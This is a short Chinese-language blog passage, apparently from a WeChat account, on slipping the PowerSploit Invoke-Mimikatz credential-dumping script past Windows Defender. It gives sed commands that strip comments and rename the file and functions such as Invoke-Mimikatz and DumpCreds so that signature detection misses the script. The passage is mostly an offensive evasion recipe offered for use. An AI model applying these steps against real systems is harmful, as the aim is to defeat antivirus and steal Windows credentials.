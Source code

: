 免杀的话 Win10 的 Defender 已经标记 PowerSploit 为恶意脚本了

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYacqiaWrOW8PYRGYAhmaTGdwDibNxBTKlticiaDn69zydfqLF9mCSSGu545Q/640?wx_fmt=png)

免杀思路有几点：  

更改 ps 脚本文件名

```
Invoke-Mimikatz.ps1改为psyyds.ps1
```

删除一些空格和注释  

```
sed -i -e '/<#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
```

更改函数名

```
sed -i -e 's/Invoke-Mimikatz/Invoke-miansha/g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCredd/g' Invoke-Mimikatz.ps1
```

然后尝试加载还查杀不  

公众号